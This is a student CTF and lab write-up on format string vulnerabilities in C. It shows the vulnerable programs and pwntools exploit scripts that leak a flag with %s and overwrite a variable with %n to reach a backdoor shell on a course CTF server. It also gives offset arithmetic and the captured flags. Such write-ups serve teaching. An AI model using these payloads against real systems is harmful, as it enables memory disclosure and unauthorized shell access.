

# Task from week 7

## Task 1

- After compiling and running all the commands as suggested in this class pdf tutorial;

- After creating the server, we sent the 'hello' message and interrupted the terminal, which the result was obtained as follows:

- We crashed the program by providing a %s as an input to the program

## Task 2
### Task A

- The objective was to print the adress where we wrote a string with 4 similar letters ("llll" in our implementation). Then we wrote %x. untill we got the adress with the previous information. With this we can find exactly the buffer size.

### Task B
- The objective in this task was to print the heap data. We made some modifications to the python file present in the server attack folder.

- After this we ran the new python file and gave the following input:

  
- The obtained output was as follows:

- In conclusion, we were able to obtain the secret message and print it.

# Task 3
## Task A

- By providing the input shown under, we gave as input the value of the target value and then 63 %x and one %n. After this, we were able to change the target value.

## Task B
- We provided as input the address of the target variable once again, but this time a bit different, because we had to give a number of exact bytes (19980):
- First we got to the 63 position to be able to modify the 64. As each position has 8 characters (63*8=504). The pretended value (0x5000=20480). If we subtract 20480-504 we get 19976, to which we had 4 to get to the 19980.

  

# CTF 7

## Challenge 1

---

We inspected the main.c file and found the following code:

main.c

    #include <stdio.h>
    #include <stdlib.h>
    
    #define FLAG_BUFFER_SIZE 40
    
    char flag[FLAG_BUFFER_SIZE];
    
    void load_flag(){
    FILE *fd = fopen("flag.txt","r");
    
        if(fd != NULL) {
            fgets(flag, FLAG_BUFFER_SIZE, fd);
        }
    }
    
    int main() {
    
        load_flag();
       
        char buffer[32];
    
        printf("Try to unlock the flag.\n");
        printf("Show me what you got:");
        fflush(stdout);
        scanf("%32s", &buffer);
        printf("You gave me this: ");
        printf(buffer);
    
        if(0) {
            printf("I like what you got!\n%s\n", flag);
        } else {
            printf("\nDisqualified!\n");
        }
        fflush(stdout);
        
        
        return 0;
    }

#### Program Analysis

- Where? -> Line 27, print buffer, enables for a print without formatting string
- What? -> We can use this to access contents of the memory
- How? -> By utilizing a formatting string in the print itself, the contents of the memory can be printed, including the value of flag

First, we ran gdb (debugger) on the program in order to find the address of the flag buffer.
 

Because there is no PIE (address randomization), the addresses are maintained through executions
 

Then, we inserted a string where we passed first the address of flag and then a format string.
 

This results of the address being written in memory and the format string, fetching the next value in memory, printing the contents pointed to by this address, the flag.

exploit.py

    from pwn import *

    LOCAL = False
    
    if LOCAL:
        p = process("./program")
    
        pause()
    
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4004)

    p.recvuntil(b"got:")
    p.sendline(b"\x60\xc0\x04\x08.%s.%p.%p.%p.%p.")
    p.interactive()

And we ran it:

And we got the flag:

#### flag{0dc09c674240331231db8116376b2a99}

## Challenge 2

---

We inspected the main.c file and found the following code:

main.c

    #include <stdio.h>
    #include <stdlib.h>
    
    int key = 0;
    
    int main() {
    
        char buffer[32];
    
        printf("There is nothing to see here...");
        fflush(stdout);
        scanf("%32s", &buffer);
        printf("You gave me this:");
        printf(buffer);
        fflush(stdout);
    
        if(key == 0xbeef) {
            printf("Backdoor activated\n");
            fflush(stdout);
            system("/bin/bash");    
        }
            
        return 0;
    }

#### Program Analysis
- What changed? The program is different, as the flag is no longer in a buffer. The vulnerability is still present but the flag cannot be printed directly. There is access to the bash if the key value is changed
- Still vulnerable but in a different way
- We can abuse the format string vulnerability present in line 14 by utilizing it to alter the value of key, giving us access to the bash

First we used gdb (debugger) to find key's address in the stack

Then, we used %n string formatting to insert into a variable the number of bytes printed and forced this number to be 0xbeef.
 

The variable to which we saved this value was the one pointed to by the address we got from gdb (key)

Finally, we got access to a remote bash, where we were able to print the contents of flag.txt and catch the flag

Here's the python script:

exploit.py

    from pwn import *

    LOCAL = False
    
    if LOCAL:
        p = process("./program")
    
        pause()
    
    else:
        p = remote("ctf-sp.dcc.fc.up.pt", 4005)
    
    p.recvuntil(b"...")
    p.sendline(b"@@@@\x34\xC0\x04\x08%.48871x%n")
    p.interactive()

And we got the flag:

#### flag{38a81e4a69be25bcadc72b7e9547bd67}

